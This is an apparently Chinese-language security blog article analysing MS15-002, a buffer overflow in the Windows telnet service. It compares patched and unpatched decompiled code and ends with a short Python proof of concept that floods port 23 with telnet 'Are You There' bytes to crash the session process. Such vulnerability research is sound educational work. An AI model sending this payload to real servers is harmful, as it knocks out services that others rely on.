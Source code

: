 # MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造 ![](img/img1_u143_png.jpg)

2015/01/16 9:09 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 漏洞原理分析

* * *

MS15-002 是微软 telnet 服务中的缓冲区溢出漏洞，下面对其原理进行分析并构造 POC。

telnet 服务进程为 tlntsvr.exe，针对每一个客户端连接会相应启动执行一个 tlntsess.exe 进程，补丁修补的是 tlntsess.exe 文件，通过补丁比对，确定漏洞位置如下，函数为

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

![enter image description here](img/img1_u23_png.jpg)

补丁前，该函数分别为：

![enter image description here](img/img2_u27_png.jpg)

补丁后，该函数为：

![enter image description here](img/img3_u28_png.jpg)

也就是说原来一个缓冲区变成了两个，调用完

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

之后，先对缓冲区中的数据长度进行判断，如果

```
(unsigned int)(v9 - (unsigned __int8 *)&Src - 1) <= 0x7FE 

```

则判断目标缓冲区中可容纳字符的个数，如果

```
(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800

```

则退出，否则执行

```
memcpy_s(v14, (char *)&v18 - (_BYTE *)v14, &Src, v9 - (unsigned __int8 *)&Src)

```

将数据拷贝到 Dst 缓冲区。

而补丁前，只有一个缓冲区，调用

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

之前，先对缓冲区中的数据长度进行判定，只有当 v13 - &Src <= 2048 时才调用，v13 指向可用的缓冲区头部，而

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

处调用的函数，会对 v13 的值进行修改，如果调用

```
void __thiscall CRFCProtocol::DoTxBinary(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

函数，可以看到函数修改了参数 3 的值，即*a3 += 3。

![enter image description here](img/img4_u23_png.jpg)

经过分析可以知道，如果 v13 - &Src =2047，则满足 v13 - &Src <= 2048 条件，此时如果(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)调用的是 CRFCProtocol::DoTxBinary 函数，且执行到了如下指令序列时，显然导致了缓冲区溢出。

```
v7 = *a3;
*v7 = -1;
v7[1] = -3;
v7[2] = a4;
v7[3] = 0;
*a3 += 3;

```

补丁后的版本，采用两个缓冲区，将临时缓冲区指针 v9 传递给

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

函数返回后判断 v9 指向的缓冲区中的数据长度，最后判断目的缓冲区剩余可用空间是否可以容纳 v9 指向的缓冲区中的数据，即对(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800 的判断。

## 0x01 环境搭建与 POC 构造

* * *

Win7 上安装并启动 telnet 服务端，执行 net user exp 123456 /ADD 增加用户 exp，通过 net localgroup TelnetClients exp /ADD 将该用户添加至 TelnetClients 组，这样就能够通过 telnet 客户端进行登录了。

调试发现

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

中*a2 为接收到的数据的长度，最大为 0x400，v6 指向接收到的数据，显然为了触发溢出，必须在调用(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)时，让数据出现膨胀，保证处理过后的 Src 缓冲区中的数据长度大于 0x800。

![enter image description here](img/img5_u28_png.jpg)

查看(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)处可以调用的函数，

```
void __thiscall CRFCProtocol::AreYouThere(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

显然会导致数据膨胀，a4 是接收到的数据中的一个字节，执行后，a3 指向的缓冲区中将写入 9 字节的固定数据。

![enter image description here](img/img2_u27_png.jpg)

通过 wireshark 截包，简单对协议进行分析，构造 POC 如下，让程序多次执行 CRFCProtocol::AreYouThere 函数，最终触发异常。

```
import socket  
address = ('192.168.172.152', 23)  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
s.connect(address)
data = "\xff\xf6" * 0x200
s.send(data) 
s.recv(512)  
s.close()

```

运行 poc，在

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket( CRFCProtocol *this, unsigned __int32 *a2)

```

处设置断点，中断后可以看到*a2 = 0x400，*(DWORD*)(*(DWORD*)(this+0x1E40)+ 0x16c8)指向接收到得数据。

![enter image description here](img/img6_u19_png.jpg)

在函数返回前设置断点，执行之后，可以看到 __security_check_cookie 检测到了栈溢出，触发了异常，中断到调试器。

![enter image description here](img/img7_u103_png.jpg)

版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）](http://drops.wooyun.org/papers/4864)
*   [uctf-杂项题目分析](http://drops.wooyun.org/tips/3349)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [逆向基础（八）](http://drops.wooyun.org/tips/2451)